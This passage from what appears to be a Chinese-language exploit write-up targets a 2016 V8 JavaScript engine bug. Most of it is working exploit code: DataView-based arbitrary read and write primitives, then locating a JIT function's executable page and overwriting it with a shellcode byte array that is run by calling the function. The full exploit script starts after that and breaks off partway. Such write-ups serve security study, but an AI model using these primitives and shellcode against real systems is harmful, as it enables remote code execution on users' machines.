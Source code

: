 （3）构造任意读写原语

```javascript
//----- arbitrary read
function dataview_read64(addr)
{
	overwrite_backing_store(addr);
	return f2i(data_view.getFloat64(0, true));
}

//----- arbitrary write
function dataview_write(addr, payload)
{
	overwrite_backing_store(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}
```

（4）由于2016年的漏洞，此时还没有wasm，所以构造一个jit函数对象，执行的代码直接就在函数对象地址+0x38处，覆盖成shellcode即可。

```javascript
var jit = new Function("var a = 1000000");
var jit_addr = addrOf(jit) - 1;
print("[+] jit_addr : 0x" + hex(jit_addr));

var jit_rwx = dataview_read64(jit_addr + 0x38);
print("[+] jit_rwx: 0x"+hex(jit_rwx));

var shellcode = [72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72, 184, 46, 121, 98,
    96, 109, 98, 1, 1, 72, 49, 4, 36, 72, 184, 47, 117, 115, 114, 47, 98,
    105, 110, 80, 72, 137, 231, 104, 59, 49, 1, 1, 129, 52, 36, 1, 1, 1, 1,
    72, 184, 68, 73, 83, 80, 76, 65, 89, 61, 80, 49, 210, 82, 106, 8, 90,
    72, 1, 226, 82, 72, 137, 226, 72, 184, 1, 1, 1, 1, 1, 1, 1, 1, 80, 72,
    184, 121, 98, 96, 109, 98, 1, 1, 1, 72, 49, 4, 36, 49, 246, 86, 106, 8,
    94, 72, 1, 230, 86, 72, 137, 230, 106, 59, 88, 15, 5];

dataview_write(jit_rwx, shellcode);

// trigger jit function to run shellcode
jit();
```



exp 代码：

```javascript
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var Uint32 = new Uint32Array(buf);

function f2i(f)
{
	float64[0] = f;
	let tmp = Array.from(Uint32);
	return tmp[1] * 0x100000000 + tmp[0]; 
}

function i2f(i)
{
	let tmp = [];
	tmp[0] = parseInt(i % 0x100000000);
	tmp[1] = parseInt((i-tmp[0]) / 0x100000000);
	Uint32.set(tmp);
	return float64[0];
```